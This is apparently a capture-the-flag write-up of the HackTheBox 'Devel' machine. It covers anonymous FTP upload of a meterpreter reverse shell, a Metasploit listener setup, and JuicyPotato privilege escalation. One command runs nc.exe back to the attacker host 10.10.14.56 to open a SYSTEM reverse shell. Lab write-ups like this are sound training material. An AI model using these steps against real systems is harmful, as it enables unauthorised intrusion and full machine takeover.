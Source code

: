```yaml
---
title: CTFs | HackTheBox | Machines | Devel
author: BatBato
date: 2023-07-20
categories: [CTFs, HackTheBox, Machines]
tags: [CTF, HackTheBox, Machines, Windows, JuicyPotato]
permalink: /CTFs/HackTheBox/Machines/Devel
---
```


# Devel

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/11724468-7358-4240-89c4-e3440a331be2)

## Enumeration

First of all, lets start a basic nmap scan:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/688b4660-81f5-4cd1-b045-bdbc6bbd9a72)

As we can see, we y have port `21` and port `80` opened. We also can notice that the port `21` (FTP) is accessible by the `anonymous` user. We can connect and list the files on the `FTP` server:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/5a0161f9-5d77-4edf-9e28-c21e983efbf1)

As we can see, there is what seems to be the tree structure of the web server. When we go on the port `80`, we can see the `welcome.png` in the center of the web page:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/d5a20752-0c9b-4d33-b1bf-a73b96447156)

## Initial Foothold
We can try to upload a web shell or a reverse shell using the `put` command on the `FTP` server. For that, I generated a meterpreter reverse shell using `msfvenom`:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/08d024b9-bf08-40cb-a210-1aea82cfdeda)

I then uploaded it. Run the following command in the `msfconsole` to get a listener on port `443`:

```shell
msf5 > use exploit/multi/handler

msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp

msf5 exploit(multi/handler) > set lhost tun0

msf5 exploit(multi/handler) > set lport 443

msf5 exploit(multi/handler) > run
```

> In the upper commands, write what comes after the `>`. `msf5...` is the text given by `msfconsole` when you launch it don't write it.
{: .prompt-tip}

I then go to the url `http://10.10.10.5/config.aspx`, and I get a meterpreter session:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/24207c13-e341-4668-98bf-7ec897ea7bc5)

Now that we have a meterpreter session, we can execute basic commands to be able to understand who we are and what rights we do have:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/256b54a6-5614-4402-8bf5-788dd33445de)

## Privilege Escalation

As we can see, we have a lot of rights. The `SeImpersonatePrivilege` is vulnerable to the `JuicyPotato` vulnerability (that I explained [here](https://nouman404.github.io/Notes/Privilege_Escalation/Windows_PE#seimpersonate--seassignprimarytoken)). I then uploaded `nc.exe` and `JuicyPotato.exe`:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/82b963b1-59c2-4f4c-8e82-7c67b2237602)

But when I tried to run the `JuicyPotato` command, I got an error saying that it wasn't the correct format:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/770800a9-e6bd-4609-9666-7b4a95ea5b1e)

So I used [this](https://github.com/ivanitlearning/Juicy-Potato-x86/releases) version of `JuicyPotato` that I called `JP.exe`:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/8e87011a-a554-48ab-8b33-f44893f73596)

Now this should work, so I create a basic `nc` instance on the port `445` and run the following command:

```powershell
c:\Users\Public\Downloads\JP.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\Users\Public\Downloads\nc.exe 10.10.14.56 445 -e cmd" -t * 
```

This default command didn't work, so I tried to execute the same command using the `-c` option to specify the `CLSID`. CLSID stands for "Class Identifier" and is a unique identifier used in the Windows operating system to identify COM (Component Object Model) objects and their associated components. I then referred to [this page](https://github.com/ohpe/juicy-potato/tree/master/CLSID/Windows_7_Enterprise) and tried every `CLSID` to get an `NT AUTORITY/SYSTEM` command prompt (the correct one is the second one `{03ca98d6-ff5d-49b8-abc6-03dd84127020}`):

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/7aeae214-c7b9-4764-8f54-896fda23cb73)

> Note that we selected `Windows 7 Enterprise` from [this page](https://github.com/ohpe/juicy-potato/tree/master/CLSID) first to have a correct list of `CLSID`s. If it wasn't a `Windows 7 Enterprise` machine, we should have selected another list of `CLSID`s.
{: .prompt-tip}

The command worked, and as we can see, we have a `cmd` as  `NT AUTORITY/SYSTEM`:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/ff4394d8-f164-4932-84e7-20f38e839294)

We can now get both flags, and voilà...

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/f4026407-c70f-49bb-9177-dc0705de7a34)


